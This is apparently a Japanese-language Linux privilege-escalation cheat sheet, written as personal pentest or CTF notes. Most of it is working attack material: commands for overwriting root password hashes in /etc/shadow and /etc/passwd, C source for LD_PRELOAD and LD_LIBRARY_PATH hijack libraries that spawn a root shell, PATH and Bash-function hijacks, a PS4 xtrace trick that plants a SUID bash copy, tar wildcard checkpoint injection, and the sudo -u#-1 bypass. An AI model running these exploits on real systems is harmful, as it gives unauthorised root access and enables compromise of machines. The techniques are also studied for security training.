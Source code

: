 # Linux Privilege Escalation

## 実行フロー
1. コマンドの確認
2. ファイルの確認
3. sudoの確認

## 機密ファイルのパーミッション確認
### /etc/shadow
通常rootユーザーのみ読み取り可能。しかしもし書き込み可能な場合、新しいパスワードハッシュを生成し、rootユーザーのハッシュを上書きする。

新しいパスワードハッシュの生成
```
mkpasswd -m sha-512 [NEW PASSWORD]
```

### /etc/passwd
通常全てのユーザーが読み取り可能だが、書き込みはrootユーザーのみ可能。しかしもし書き込み可能な場合、rootユーザーのパスワードを上書きする。

新しいパスワードの生成
```
openssl passwd [NEW PASSWORD]
```

## ユーザー環境から継承された環境変数の確認
### env_keep オプションの内容を確認する。
```
sudo -l | grep -iF env_keep
```

#### LD_PRELOAD が存在する場合
1. C言語のプログラムを共有ライブラリ(soファイル)にコンパイル
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

preload.c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

2. コマンドの実行
```
sudo LD_PRELOAD=/tmp/preload.so [COMMAND]
```

#### LD_LIBRARY_PATH が存在する場合
1. プログラムが依存関係にある共有ライブラリを調べる。
```
ldd [COMMAND]
```

2. C言語のプログラムを共有ライブラリ(soファイル)にコンパイル
```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c
```

library_path.c
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

3. コマンドの実行
```
sudo LD_LIBRARY_PATH=/tmp [COMMAND]
```

#### Memo
LD_PRELOAD : プログラム（コマンド）実行の際に最初にロードする共有オブジェクトを指定する環境変数。  
LD_LIBRARY_PATH : 最初に共有オブジェクトを検索しに行くディレクトリを指定する環境変数。  
COMMAND : sudoで実行できるコマンド。

## コマンドの確認
root権限で実行できるコマンドの確認
```
sudo -l
```

## ファイルの確認
### 怪しいスクリプトの調査
1. LinEnumを実行
2. CronTabに設定されているスクリプトの確認（相対パス or 絶対パス）
3. SUID / SGIDファイルの確認
4. その他ファイルの確認（一般ユーザーのホームディレクトリなど。LinEnumのInteresting Filesセクションも参考）

### 内部コマンドの調査
・シェルスクリプトの場合
```
cat [FILE]
```

・バイナリファイルの場合
1. 読み取り可能な文字列を抽出し、内部で実行されているコマンドを確認。
```
strings [FILE]
```

2. システムコール単位での処理の流れから、実行エラーになっているライブラリやファイルなどを確認。
```
strace [FILE]
strace [FILE] 2>&1 | grep -iE "open|access|no such file"
```

### 権限昇格の実行（コマンドの指定方法ごとに）
・相対パスの場合  
tmpディレクトリに同名のスクリプトを作成。
```
echo '/bin/bash -p' | tee /tmp/[FILE]; chmod +x /tmp/[FILE]
export PATH=/tmp:$PATH
```

・絶対パスの場合  
1. スクリプトが配置されているディレクトリに書き込み権限があるか確認
```
ls -la | grep -iF [DIRECTORY]
```

2. スクリプト自体に書き込み権限があるか確認
```
ls -la [FILE]
```

3. Bashのバージョンを確認（デフォルトシェルがBashの場合）
```
/bin/bash --version
```

・Bash < ver4.2-048  
絶対パスの名前の関数を定義する。
```
function [ABSOLUTE PATH] { /bin/bash -p; }
export -f [ABSOLUTE PATH]
```

・Bash < ver4.4  
suid-env2をデバッグモードで実行する。Bashをデバッグモードで実行する場合、環境変数PS4が利用される。PS4には、/bin/bashのスクリプトをtmpディレクトリにコピーし、SUIDを付与するコマンドをセットする。
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/tmp/rootbash -p
```

4. ワイルドカードの使用を確認  
tarコマンドなどの引数として*を使用し、かつ実行先のディレクトリに書き込み権限がある場合。touchコマンドの引数には絶対パスを指定しないとエラーになる。
```
touch [FILE PATH]--checkpoint=1
touch [FILE PATH]--checkpoint-action=exec=[PAYLOAD]
```

## sudoの確認
```
sudo -V
```

・sudo =< ver1.8.28  
他のユーザーとしてコマンドを実行できる権限（ALL）が与えられている必要あり。
```
sudo -u#-1 /bin/bash
sudo -u#4294967295 /bin/bash
```

